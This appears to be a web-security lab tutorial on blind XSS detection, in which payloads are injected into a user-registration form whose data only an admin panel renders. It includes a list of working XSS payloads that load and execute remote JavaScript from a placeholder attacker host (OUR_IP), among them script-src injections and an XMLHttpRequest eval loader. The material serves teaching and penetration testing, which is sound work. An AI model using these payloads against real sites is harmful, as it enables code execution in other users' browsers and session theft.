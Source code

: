 #### Blind XSS Detection
We usually start **XSS** attacks by trying to **discover**. However, this time, we will be dealing with a Blind XSS vulnerability. A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.

**Blind XSS** vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

    * Contact Forms
    * Reviews
    * User Details
    * Support Tickets
    * HTTP User-Agent header

Let's run the test on the web application (/hijacking). We see a User Registration page with multiple fields, so let's try to submit a test user to see how the form handles the data:
![[H1IHRpHVJx.png]]

As we can see, once we submit the form we get the following message: 
![[SJbU0pSVye.png]]
This indicates that we will **not** see how our input will be handled since it will appear for the Admin only in a certain **Admin** Panel that we do not have access to. As we do not have access over the Admin panel in this case, how would we be able to detect an **XSS** vulnerability if we cannot see how the output is handled?

To do so, we can use the **same** trick we used in the previously, which is to use a **JavaScript** payload that sends an HTTP request back to our server. If the **JavaScript** code gets executed, we will get a response on our machine, and we will know that the page is indeed **vulnerable**.

However, this introduces two issues:
1. How can we know **which** specific field is vulnerable? Since any of the fields may execute our code, we can't know which of them did.
2.  How can we know **what** XSS payload to use? Since the page may be vulnerable, but the payload may not work?
#### Loading a Remote Script
In **HTML**, we can write **JavaScript** code within the ```<script>``` tags, but we can also include a remote script by providing its **URL**, as follows: 
```<script src="http://OUR_IP/script.js"></script>```

So, we can use this to execute a **remote JavaScript** file that is served on our VM. We can change the requested script name from script.js to the name of the field we are injecting in, such that when we get the request in our VM, we can **identify** the vulnerable input field that executed the script, as follows:
```<script src="http://OUR_IP/username"></script>```

If we get a request for **/username**, then we know that the username field is vulnerable to XSS, and so on. With that, we can start testing various XSS payloads that load a remote script and see which of them sends us a request:
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendCh
ild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP")</script>

<script>$.getScript("http://OUR_IP")</script>
```
**Before** we start sending payloads, we need to start a **listener** on our VM.